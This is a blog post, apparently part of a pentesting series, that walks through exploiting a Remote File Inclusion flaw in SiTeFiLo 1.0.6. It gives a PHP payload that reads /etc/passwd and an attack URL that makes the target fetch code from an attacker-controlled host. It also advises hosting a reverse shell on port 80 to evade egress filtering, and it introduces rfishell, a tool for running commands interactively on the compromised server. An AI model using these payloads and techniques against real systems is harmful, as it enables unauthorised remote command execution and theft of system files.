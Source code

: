 
In [Part 1](/2012/06/21/lets-kick-shell-ish-part-1-directory-traversal-made-easy/), we talked about getting a shell-like interface when attacking a target vulnerable to directory traversals. We continue with an article on exploiting Remote File Inclusion (RFI) attacks with a shell.

<!--more-->

Typically if you can find an RFI vulnerability, then you can get it to execute a reverse web shell and you're all done. So what's this article about? In some cases, you may encounter a target that has some serious egress filtering enabled, and you can't find an outgoing port to connect back to your netcat instance. Or maybe you don't want to use a reverse shell for whatever reason. Rather than having to manually edit your RFI file to run commands on the target, we'll create a shell-ish interface to make the hacking experience a little more pleasant.

Let's have a look at a basic RFI example. We've discovered a target running the Simple Text-File Login script (SiTeFiLo). Version 1.0.6 is vulnerable to RFI attacks, as detailed in this advisory: [http://www.securityfocus.com/bid/32811/](http://www.securityfocus.com/bid/32811/)

![](/images/2012-06-26/01.png)

According to the advisory, we can specify the location of our own header.inc.php and have the target execute our PHP code. Let's test this. We create a /var/www/header.inc.php.txt file with the following contents:

```
<?php 
print system("cat /etc/passwd");
?>
```

We craft our URL as follows, which will load our header.inc.php.txt into the target and have it execute cat /etc/passwd for us:

```
http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/
```

When we load up that URL on the browser, we see our command get executed, and the contents of /etc/passwd displayed on the screen:

![](/images/2012-06-26/02.png)

Now that we've verified that we can run commands on the server, we grab our PHP reverse shell, rename it to header.inc.php.txt, fire up netcat to listen for connections, refresh the browser, and... nothing.

![](/images/2012-06-26/03.png)

Well as it turns out, this particular target we're attacking only allows inbound and outbound connections on port 80, and blocks everything else. One alternative around this is to host the PHP reverse shell elsewhere, and have netcat listen on port 80 for connections. If this isn't possible, or you don't want to have a reverse shell, here's one possible solution to simplify command execution on the target, without having to modify the PHP file manually.

I call it rfishell for lack of a better term. Much like dirtshell from Part 1 of this post, rfishell provides a shell-ish interface for you to work on, allowing quick command entry and a clean output. Let's check it out. The command we'll use is

```
rfishell -f /var/www/header.inc.php.txt -u "http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/"
```

This tells rfishell to use /var/www/header.inc.php.txt as our PHP file containing the commands we want to run, and the target URL. When we hit Enter, rfishell presents us with a prompt. We'll enter the command

```
cat /etc/passwd
```

and see the results displayed to us:

![](/images/2012-06-26/04.png)

We can enter commands one after another, as if we were logged into the server with a shell:

![](/images/2012-06-26/05.png)

The script itself is very minimal, but definitely expandable. By default, it uses PHP, but you can modify the rfi_template function to tailor it for ASP, JSP, or whatever else. The script requires curl, so make sure you have that installed. You can get the latest version of rfishell from [GitHub](https://github.com/superkojiman/rfishell). 

The script only takes two parameters, the location of the file that will contain the commands to run, and the target URL. Commands you enter on the prompt are turned into PHP code and saved into the file specified with -f, and curl is used to retrieve the results.

Quick and simple; the way shell scripts should be.
